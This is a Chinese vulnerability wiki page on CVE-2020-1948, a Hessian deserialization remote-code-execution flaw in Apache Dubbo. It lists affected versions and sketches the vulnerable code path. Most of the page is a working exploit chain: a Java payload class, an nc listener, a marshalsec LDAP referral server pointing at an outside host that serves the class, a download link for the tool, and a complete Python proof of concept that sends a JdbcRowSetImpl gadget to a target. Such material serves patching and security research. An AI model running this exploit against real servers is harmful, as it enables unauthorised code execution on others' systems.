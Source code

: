 （CVE-2020-1948）Apache Dubbo Hessian 反序列化漏洞
==================================================

一、漏洞简介
------------

攻击者可以发送带有无法识别的服务名或方法名及某些恶意参数负载的RPC请求，当恶意参数被反序列化时将导致代码执行

二、漏洞影响
------------

2.7.0 \<= Apache Dubbo \<= 2.7.7

2.6.0 \<= Apache Dubbo \<= 2.6.7

Apache Dubbo 全部 2.5.x 版本

三、复现过程
------------

### 漏洞分析

Hessian是一个轻量级的RPC框架。它基于HTTP协议传输，使用Hessian二进制序列化，对于数据包比较大的情况比较友好。使用hession的web项目需要配置web.xml,映射`com.caucho.hessian.server.HessianServlet`之相应的路径

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId25.png)

Java客户端可以很方便的调用服务器上的方法,如下

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId26.png)

查看`com.caucho.hessian.server.HessianServlet`的代码service方法处理客户端发来的http请求,调用

![3.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId27.png)

![4.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId28.png)

调用HessianSkeleton的invoke方法,将从客户端发来的数据流中读取对象

![5.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId29.png)

看代码里面好像没有什么黑白名单过滤机制通过抓取请求包,分析,构造请求包,将marshalsec工具生成的Resion
payload发送给服务器下面是构造请求包的`CVE-2020-1948.py`代码

![6.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId30.png)

利用图

![7.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId31.png)

![8.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId32.png)

### 漏洞复现

#### 构造poc

    ## exp.java
    import javax.naming.Context;
    import javax.naming.Name;
    import javax.naming.spi.ObjectFactory;
    import java.util.Hashtable;

    public class exp {
        public exp(){
            try {
                java.lang.Runtime.getRuntime().exec("calc.exe");
            } catch (java.io.IOException e) {
                e.printStackTrace();
            }
        }
    }

> 编译poc

    javac exp.java

#### nc监听

    nc -lvvp 12345

#### 服务器开启web服务，并将生成好的exp.class放置web目录

#### 启动 LDAP 代理服务

    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://www.0-sec.org/#exp 81

> marshalsec 下载：

    https://download.0-sec.org/Web安全/java反序列化漏洞/marshalsec-0.0.3-SNAPSHOT-all.jar

#### py脚本测试

> 安装依赖包

    pip install dubbo-py

> 运行

    python poc.py www.target.com 12345 ldap://www.yourweb:81/exp

> 除了通过返回信息来判断外，观察 LDAP
> 代理是否出现请求转发也是判断POC利用是否成功的重要依据:

    # LDAP Refer Server Output
    Send LDAP reference result for exp redirecting to http://www.0-sec.org/exp.class
    # poc.py
    # -*- coding: utf-8 -*-

    import sys

    from dubbo.codec.hessian2 import Decoder,new_object
    from dubbo.client import DubboClient

    if len(sys.argv) < 4:
      print('Usage: python {} DUBBO_HOST DUBBO_PORT LDAP_URL'.format(sys.argv[0]))
      print('\nExample:\n\n- python {} 1.1.1.1 12345 ldap://1.1.1.6:80/exp'.format(sys.argv[0]))
      sys.exit()

    client = DubboClient(sys.argv[1], int(sys.argv[2]))

    JdbcRowSetImpl=new_object(
      'com.sun.rowset.JdbcRowSetImpl',
      dataSource=sys.argv[3],
      strMatchColumns=["foo"]
      )
    JdbcRowSetImplClass=new_object(
      'java.lang.Class',
      name="com.sun.rowset.JdbcRowSetImpl",
      )
    toStringBean=new_object(
      'com.rometools.rome.feed.impl.ToStringBean',
      beanClass=JdbcRowSetImplClass,
      obj=JdbcRowSetImpl
      )

    resp = client.send_request_and_return_response(
      service_name='org.apache.dubbo.spring.boot.sample.consumer.DemoService',
      # 此处可以是 $invoke、$invokeSync、$echo 等，通杀 2.7.7 及 CVE 公布的所有版本。
      method_name='$invoke',
      args=[toStringBean])

    output = str(resp)
    if 'Fail to decode request due to: RpcInvocation' in output:
      print('[!] Target maybe not support deserialization.')
    elif 'EXCEPTION: Could not complete class com.sun.rowset.JdbcRowSetImpl.toString()' in output:
       print('[+] Succeed.')
    else:
      print('[!] Output:')
      print(output)
      print('[!] Target maybe not use dubbo-remoting library.')

参考链接
--------

> https://github.com/DSO-Lab/Dubbo-CVE-2020-1948/wiki
